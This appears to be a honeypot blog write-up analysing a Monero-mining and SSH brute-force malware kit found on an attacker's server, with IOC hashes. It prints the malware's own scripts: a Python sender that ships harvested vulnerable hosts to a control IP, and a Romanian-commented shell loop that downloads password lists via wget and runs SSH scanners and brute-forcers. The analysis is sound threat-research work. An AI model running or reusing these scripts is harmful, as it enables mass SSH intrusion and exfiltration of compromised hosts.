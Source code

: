 ```yaml
---
layout: post
title:  "Another-Miner-Caught-By-HoneyPot"
tags: [209.141.32.204, cowrie, miner ]
---
```



### The log file

<img src="https://i.imgur.com/OlKKF60.png" alt="http://209.141.32.204" width="70%" height="35%">
<br>
The command below was used in the screenshot above to scrape & print information about a session in which the user tires to use my honeypot to mine Moner.

```bash
tail -f cowrie.json | jq -r '. | select(.eventid | contains("cowrie.command.input")) | "CMD: " + .input, "Session: " + .session,  "SRC IP: " + .src_ip + "\r\n"'
```
The image below shows the results of the DirSearch scan of 209.141.32[.]204. The image shows that the IP has a couple of hidden directories and a handful of other files. 
<img src="https://i.imgur.com/TGUCk5q.png" alt="http://209.141.32.204 dirsearch" width="35%" height="35%">

### The hidden .ssh directory
The image below shows the contents of `http://209.141.32[.]204/.ssh`. Right of away, two files grab my attention. The `config.json` and the `krane` file. These grab my attention because those files were created just three days ago.<br><br>
<img src="https://i.imgur.com/SGZIAVk.png" alt="http://209.141.32[.]204/.ssh" width="35%" height="35%">

## Config.json
The `config.json` file also caught my eye because config.json files are often used by miners for mining. 
The following Monero address was being used for the mining. The pool that was being used was "hashvault.pro".

`49ubSTdDp9hPmYE7paRM6PZFLmqvsedZ56MXLUT8mvYnTzjVCKGDbpuW4RVdvZon228uWnkjoJN8S6w5S4LdgeK8UBMMEhJ`

Most miners have a feature built into the miner that allows the user to donate some of their hashes to the developers. This miner might donate all their hashes to the developers 1 minute every hour. The value was set as 1, this is intresting becauase they author of the malware was donating their hash power to the developers.  This might be on purpose or a careless mistake of a inexperienced malware author. 

### The .db directory
<img src="https://i.imgur.com/DI2TCio.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%">
<br>
The image above shows the contents of the .db directory. The directory contains a handful of text files that are used by the malware to brute force machines that have SSH exposed.<br>

<img src="https://i.imgur.com/DFAvqKD.png" alt="http://209.141.32[.]204/.db" width="35%" height="35%"><br>
The image above shows the contents of pass.txt. The pass.txt file contains popular passswords and usernames. 

### K 
The 'k' file can be found at `http://209.141.32[.]204/k`. In order to ungzip the file, we need to use the `cp k k.gz` commmand to add the 
gz extension to the file. This is needed so we can ungzip the file. Next we used `gzip -d k.gz` to ungzip the file. The result ended with a new file named `k.tar`. Once again we have to use the command `cp k k.tar` to change the file's extension to .tar. Lastly we use the command 
`tar -xvf k.tar` to untar the file. The results are a new hidden folder named `.k.tar`. 

```
a:             ASCII text
boner:         ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
k_config.json: JSON data
main:          ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6585c7cd03ec265663087a7edaa517813514e9fa, for GNU/Linux 3.2.0, not stripped
ra:            ASCII text
rx:            ASCII text
send_vuln.py:  Python script, ASCII text executable
ta:            ASCII text
tx:            ASCII text
x:             ASCII text
```
The snippet above shows the contents of the .k.tar directory. 

## The contents of k_config.json
```text
{
    "remote":
    {
        "ip_to_send_vuln": "209.141.32.204",
        "port_to_send_vuln": 10102
    },

    "events":
    {
        "send_vuln_after_seconds": 15

    }
}
```
The snippet above shows the contents of k_config.json. The JSON file looks like a config file that contains the IP and the port that is used by the malware.  By looking at the events key, it looks like this config file is used with by the `send_vuln.py` file. The port that the config file uses is port 10102. The IP that is listed in the config file is the same IP that was used to download all the other files.

### The send_vuln.py file
```python
import socket
import json
import time
import os

data = ""

with open("k_config.json", 'r') as ftr:
    data = json.load(ftr)


remote_data = [data["remote"]["ip_to_send_vuln"], data["remote"]["port_to_send_vuln"]]
trigger_after_econds = data["events"]["send_vuln_after_seconds"]

def read_file(filename):
    ce_am_citit = []
    with open(filename, 'r') as ftr:
        for l in ftr:
            ce_am_citit.append(l.strip())

    return ce_am_citit

def remove_file(filename):
    os.remove(filename)



start_time = 0
while True:
    time.sleep(1)
    try:
        if time.time() - start_time > trigger_after_econds:
            start_time = time.time()
            prinse = read_file("prinse.txt")
            if len(prinse) < 1:
                continue

            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((remote_data[0], remote_data[1]))

            string_to_send = ""

            for p in prinse:
                string_to_send += p + "\n"

            sock.send(bytes(string_to_send, "UTF-8"))
            print("vuln sent")
            remove_file("prinse.txt")

            sock.close()
    except:
        pass
```

The snippet above shows the contents of the `send_vuln.py` file. The file is written in Python. By looking at the script it looks like the Python script reads the `k_config.json` file to gather the port and IP of the control server, the code then uses Python's socket module to connect to server. 

## rx.sh 
The snippet above shows the contents of the rx.sh file. 
```bash
rm -rf /etc/sysctl.conf ; echo "fs.file-max = 2097152" > /etc/sysctl.conf ; sysctl -p ; ulimit -Hn ; ulimit -n 99999 -u 999999
while true; do

        ###      Aici incarcam parolele!!

        File=mic
        rm -rf "$File"
        echo "#Incarc Parolele#"
        wget http://209.141.58.203/.db/$File
        if grep -q oracle "$File";
        then
        cat "$File" > passfile.txt
        fi
        rm -rf "$File"




        #### Aici stergem fisierele anterioare si scanam unele noi!!

        rm -rf bios.txt mfu.txt ipuri scan.lst banner.log
        echo "###Incarc Ipuri###"
        random="$((30 + $RANDOM % 224))"
        ./cosynus 22 -a "$random" -s 10 > /dev/null
        pkill -f cosynus
        pkill -f ./cosynus
        cat bios.txt |uniq > mfu.txt
        rm -rf bios.txt
        sleep 1
        echo "#Am terminat de scanat, dau drumu la banner#"
        ./boner mfu.txt 22 1000 > /dev/null
        pkill -f boner
        pkill -f ./boner
        cat banner.log  |grep SSH-2.0-OpenSSH |awk '{print $1}' |uniq >> scan.lst
        cat scan.lst |uniq > ipuri
        ./main 1000
         echo "$random" >> oK
done
```
The rx.sh script contains a couple of comments like `Aici incarcam parolele!!`. Using Google translate the author was able to figure out that the author of the malware might be a native Romanian speaker. The English translation of `Aici incarcam parolele!!` is 'Here we upload the passwords !!' according to Google Translate. 

Another comment inside the bash file contained the Romanian text, `Aici stergem fisierele anterioare si scanam unele noi!!`. The English translation is `Here we delete the previous files and scan new ones !!`.


### IOC
dfa6d202fc24623a5aadf3684aadcfbce72ee8aa  config.json<br>
f1cb326ee8ab4217cf9191f395e35fe684dd426a  a<br>
bfa1d6ecc6a4f2da893b88f15b96a96320dd27c5  b<br>
d987680671c4c35610d659dd5dc2e0f4d387e0b4  pass.txt<br>
3fbbd4ef15e064bd2f4b8b643aacbafdfc347833  dump.txt<br>
16e358574ef61f841f8b6ddb45188446c7da8c7d  k<br>
ad4649a79b67c1db9a8343e18af3b7c0d323172c  a<br>
a9c7d059a22fed787f48698c5c10b0b5146f616d  boner<br>
9c9a96383883601d9ad8a7d78eb3995a7dfbc350  k_config.json<br>
2ccf0c37b004b1793dd79792dc6ffd83e7438137  main<br>
1f8f3d751b578242e9c2b32391c8a162e154c7b2  ra<br>
e5dcaab24fab63b050a5a80b50f5a9ad17d127f1  rx<br>
638108b2217b21843ba7f1c80a95f756e5e2310d  send_vuln.py<br>
a82a8eda9177b2ef1e8936784d0aa5d79fa2ddce  ta<br>
e85c6b190d672884a4a37039cb35dfc73a84318a  tx<br>
f5f323005f8c71324c53c864d28db4cbed8e78ac  x<br>
